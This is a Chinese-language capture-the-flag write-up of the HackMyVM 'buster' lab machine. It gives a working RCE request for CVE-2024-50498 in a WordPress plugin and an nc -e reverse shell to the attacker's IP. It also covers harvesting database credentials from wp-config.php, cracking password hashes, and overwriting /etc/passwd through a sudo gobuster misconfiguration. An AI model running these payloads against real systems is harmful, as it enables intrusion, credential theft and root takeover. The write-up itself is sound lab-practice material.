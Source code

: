 ```yaml
---
title: HMV buster
published: 2025-02-16
pinned: false
description: HMV buster wp
tags: ['HMV']
category: 渗透
licenseName: "MIT"
author: zsm
draft: false
date: 2025-02-16
pubDate: 2025-02-16
---
```


## buster

### 靶场链接

https://hackmyvm.eu/machines/machine.php?vm=buster

### 日常扫描
扫出来80端口，打开发现是wordpress
wpscan扫出来两个用户，继续扫描

### 反弹shell

wpscan --api-token  --url http://192.168.64.20/ -e u,ap --plugins-detection aggressive

扫出来漏洞插件wp-query-console，CVE-2024-50498
poc
```
POST /wp-json/wqc/v1/query HTTP/1.1
Host: kubernetes.docker.internal
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://kubernetes.docker.internal/wp-admin/admin.php?page=wp-query-console
Content-Type: application/json
Content-Length: 45
Origin: http://kubernetes.docker.internal
Connection: keep-alive
Priority: u=0

{"queryArgs":"phpinfo();","queryType":"post"}
```
改成josn格式，bp发过去

看一下被禁用的
><tr><td class="e">disable_functions</td><td class="v">passthru,exec,system,popen,chroot,scandir,chgrp,chown,escapesh</td><td class="v">passthru,exec,system,popen,chroot,scandir,chgrp,chown,escapesh</td></tr>
shell_exec可以试试

```
POST /wp-json/wqc/v1/query HTTP/1.1
Host: 192.168.64.20
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 83

{"queryArgs":"shell_exec('nc -e /bin/bash 192.168.64.3 4444');","queryType":"post"}
```

本地成功拿到shell，开始提权

### 提权

/usr/bin/script -qc /bin/bash /dev/null交互式终端
wp-config.php看看账号密码
```
// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'll104567' );

/** Database password */
define( 'DB_PASSWORD', 'thehandsomeguy' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );
```
查数据库，得到密码
ta0 - $P$BDDc71nM67DbOVN/U50WFGII6EF6.r.
welcome - $P$BtP9ZghJTwDfSn1gKKc.k3mq4Vo.Ko/

爆出来welcome的密码，104567，ta0的爆了好久没出来

ssh上去之后发现sudo -l发现gobuster可以sudo无密码执行，这个就是提权点
传个pspy上去看看运行的东西，发现/opt/.test.sh在后台运行，利用这个提权，但是不会（）。
看了佬的wp，有一个gobuster的通杀提权方法？

```#kali
perl -e 'print crypt("1","aa")'

cat a.py             
from flask import Flask, Response

app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def catch_all(path):
    if len(path) == 36:
        return Response(status=404)
    else:
        return Response(status=200)

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=80)

python a.py
 * Serving Flask app 'a'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:80
 * Running on http://192.168.64.3:80
Press CTRL+C to quit

#靶机
echo 'aaa:aacFCuAIHhrCM:0:0:x:/root:/bin/bash' > aaa
sudo /usr/bin/gobuster -w aaa -u http://192.168.64.3 -n -q -o /etc/passwd
cat /etc/passwd
su - /aaa
```
然后就提权成功了